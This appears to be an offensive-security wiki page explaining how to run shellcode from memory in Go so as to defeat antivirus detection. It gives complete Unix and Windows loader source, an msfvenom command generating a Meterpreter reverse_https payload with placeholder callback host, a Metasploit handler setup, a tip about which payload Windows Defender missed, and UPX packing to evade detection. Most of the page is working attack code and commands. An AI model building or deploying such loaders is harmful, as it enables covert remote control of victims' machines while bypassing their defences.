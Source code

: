 # Load shellcode from memory using Golang

This is a program to run shellcode as its own process, all from memory written to defeat anti-virus detection.

Original code by [brimstone](https://github.com/brimstone/go-shellcode) mofified by [JUMPSEC](https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/):

{% tabs %}
{% tab title="main.go" %}
```go
package main

import (
	"encoding/hex"
	"fmt"
	"os"

	shellcode "github.com/brimstone/go-shellcode"
)

func main() {

	sc :="SHELLCODE-GOES-HERE"
	sc_bin, err := hex.DecodeString(sc)
	if err != nil {
		fmt.Printf("Error decoding arg 1: %s\n", err)
		os.Exit(1)
	}

	shellcode.Run(sc_bin)
}
```
{% endtab %}

{% tab title="shellcode_unix.go" %}
```go
// +build linux freebsd darwin

package shellcode

/*
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>
void call(char *shellcode, size_t length) {
	if(fork()) {
		return;
	}
	unsigned char *ptr;
	ptr = (unsigned char *) mmap(0, length, \
		PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	if(ptr == MAP_FAILED) {
		perror("mmap");
		return;
	}
	memcpy(ptr, shellcode, length);
	( *(void(*) ()) ptr)();
}
*/
import "C"
import (
	"unsafe"
)

func Run(sc []byte) {
	C.call((*C.char)(unsafe.Pointer(&sc[0])), (C.size_t)(len(sc)))
}
```
{% endtab %}

{% tab title="shellcode_windows.go" %}
```go
package shellcode

import (
	"syscall"
	"unsafe"
)

var procVirtualProtect = syscall.NewLazyDLL("kernel32.dll").NewProc("VirtualProtect")

func VirtualProtect(lpAddress unsafe.Pointer, dwSize uintptr, flNewProtect uint32, lpflOldProtect unsafe.Pointer) bool {
	ret, _, _ := procVirtualProtect.Call(
		uintptr(lpAddress),
		uintptr(dwSize),
		uintptr(flNewProtect),
		uintptr(lpflOldProtect))
	return ret > 0
}

func Run(sc []byte) {
	// TODO need a Go safe fork
	// Make a function ptr
	f := func() {}

	// Change permissions on f function ptr
	var oldfperms uint32
	if !VirtualProtect(unsafe.Pointer(*(**uintptr)(unsafe.Pointer(&f))), unsafe.Sizeof(uintptr(0)), uint32(0x40), unsafe.Pointer(&oldfperms)) {
		panic("Call to VirtualProtect failed!")
	}

	// Override function ptr
	**(**uintptr)(unsafe.Pointer(&f)) = *(*uintptr)(unsafe.Pointer(&sc))

	// Change permissions on shellcode string data
	var oldshellcodeperms uint32
	if !VirtualProtect(unsafe.Pointer(*(*uintptr)(unsafe.Pointer(&sc))), uintptr(len(sc)), uint32(0x40), unsafe.Pointer(&oldshellcodeperms)) {
		panic("Call to VirtualProtect failed!")
	}

	// Call the function ptr it
	f()
}

```
{% endtab %}
{% endtabs %}

The binary can be built using this command:

```
GOOS=windows \
GOARCH=amd64 \
go build -ldflags="-s -w -H=windowsgui" \
cmd/sc/main.go
```

To generate the shellcode you can use this command:

```
msfvenom -p windows/x64/meterpreter/reverse_https \
LHOST=xxx \
LPORT=xxx \
-b \x00 \
-f hex
```

{% hint style="info" %}
At the time of writing the `windows/x64/meterpreter/reverse_tcp` payload was flagged by windows defender when executing (behavior analysis) but not the `windows/x64/meterpreter/reverse_https`
{% endhint %}

Starting the handler:

```
msfconsole -x "use exploit/multi/handler;\
set PAYLOAD windows/x64/meterpreter/reverse_https;\
set LHOST localhost;\
set LPORT 8443;\
run -j"
```

Packing the binary using UPX might help with Antivirus detection:

```
brew install upx
upx main.exe --brute
```

### References

{% embed url="https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/" %}

{% embed url="https://github.com/brimstone/go-shellcode" %}

